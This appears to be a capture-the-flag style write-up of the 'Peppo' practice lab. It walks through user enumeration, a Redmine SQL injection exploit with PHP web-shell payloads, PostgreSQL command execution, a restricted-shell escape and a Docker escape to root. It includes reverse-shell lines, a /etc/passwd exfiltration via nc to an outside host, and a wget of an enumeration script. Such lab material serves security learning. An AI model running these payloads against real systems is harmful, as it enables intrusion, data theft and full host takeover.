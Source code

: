 ### Ident-user-enum
```bash
❯ apt-cache show ident-user-enum
Package: ident-user-enum
Version: 1.0-0kali2
Architecture: all
Maintainer: Kali Developers <devel@kali.org>
Installed-Size: 12
Depends: perl, libnet-ident-perl, libio-socket-ip-perl
Homepage: http://pentestmonkey.net/tools/user-enumeration/ident-user-enum
Priority: optional
Section: utils
Filename: pool/main/i/ident-user-enum/ident-user-enum_1.0-0kali2_all.deb
Size: 2836
SHA256: 139d6dd478f2d1b31fa333a4d6c689930076b3d6b085c6d8075c9f3245cf9eeb
SHA1: 9f5c962d823e173728dad160a055f212683a3cc0
MD5sum: 91a1a052fa0ecd5b34e76b491847266d
Description: Query ident to determine the owner of a TCP network process
 This package is a simple PERL script to query the ident service (113/TCP)
 in order to determine the owner of the process listening on each TCP port of
 a target system.
 .
 This can help to prioritise target service during a pentest (you might want
 to attack services running as root first).
 Alternatively, the list of usernames gathered can be used for password
 guessing attacks on other network services.
Description-md5: e01d88837682206cf3cd3e4d210eee60
```

```bash
ident-user-enum $IP 22 113 5432 8080 10000
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.200.60:22       root
192.168.200.60:113      nobody
192.168.200.60:5432     <unknown>
192.168.200.60:8080     <unknown>
192.168.200.60:10000    eleanor
```

### nmap
`sudo nmap -sV -sS -sC -A $IP -p22,113,5432,8080,10000`

8080: admin/admin

### Redmine RCE (rabbit hole)
https://github.com/RealLinkers/CVE-2019-18890

```bash
❯ python3 exploit.py http://192.168.200.60:8080 admin 12345678 "SLEEP(10)"
(+) Injection succesful!
```

```bash
python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select \"<?php SYSTEM(\$_REQUEST['cmd']); ?>\" into outfile '/var/www/html/alvin1.php'"

python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select \"<?php SYSTEM(\$_REQUEST['cmd']); ?>\" into outfile '/var/www/redmine/alvin1.php'"

python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select \"<?php SYSTEM(\$_REQUEST['cmd']); ?>\" into outfile '/var/www/redmine/public/alvin1.php'"

python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select \"<?php SYSTEM(\$_REQUEST['cmd']); ?>\" into outfile '/var/www/html/redmine/alvin1.php'"
```

### Okay, let's do the PostgreSQL injection properly then (rabbit hole)
```
python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select 1 from pg_sleep(5)"
python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select 1 from pg_sleep\(5\)"
```

`COPY (SELECT 'sh -i >& /dev/tcp/192.168.49.200/10000 0>&1') TO '/tmp/pentestlab';`

```sql
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'ping 192.168.49.200';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('sh -i >& /dev/tcp/192.168.49.200/10000 0>&1');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc 192.168.49.200 10000');
```

Okay, seems fine now after I created a subproject
```bash
❯ python3 exploit.py http://192.168.200.60:8080 admin 12345678 "SLEEP(5)"
(+) ProjectId 1 with a subproject was found succesfuly!
(+) Injection succesful!
<Response [200]>
```

### 10000 (rabbit hole)
```bash
feroxbuster -u http://192.168.200.60:10000 -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -v -k -n -e
```

### Foothold
After wasting hours on Redmine, I realized the I got the SSH creds from very beginning `192.168.200.60:10000    eleanor`
```bash
ssh eleanor@$IP 
```

failed on bypass strict
```
❯ ssh eleanor@$IP -t bash
eleanor@192.168.200.60's password: 
rbash: bash: command not found
Connection to 192.168.200.60 closed.
                                                                                                                                                                                            
❯ ssh eleanor@$IP -t sh
eleanor@192.168.200.60's password: 
rbash: sh: command not found
Connection to 192.168.200.60 closed.
                                                                                                                                                                                            
❯ ssh eleanor@$IP -t zsh
eleanor@192.168.200.60's password: 
rbash: zsh: command not found
Connection to 192.168.200.60 closed.
```

Checking command availability
```
eleanor@peppo:~$ echo $PATH
/home/eleanor/bin

eleanor@peppo:~$ ls bin
chmod  chown  ed  ls  mv  ping  sleep  touch
```

https://gtfobins.github.io/gtfobins/ed/

`ed` It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

### Root with Docker escape Shell

It can be used to break out from restricted environments by spawning an interactive system shell.
The resulting is a root shell.

```bash
id -> 999 docker
GTFObins -> shell
docker image ls -> list available images
docker run -v /:/mnt --rm -it postgres chroot /mnt sh
```

### Let's check linpeas
```
wget http://192.168.49.200:10000/linpeah.sh
```

```bash
OS: Linux version 4.9.0-12-amd64 (debian-kernel@lists.debian.org) (gcc version 6.3.0 20170516 (Debian 6.3.0-18+deb9u1) ) #1 SMP Debian 4.9.210-1 (2020-01-20)
User & Groups: uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
```

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#mounted-docker-socket-escape

```
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```

### Summary
The initial shell got with exposed creds. Then `Docker escape` to get root.

https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/peppo
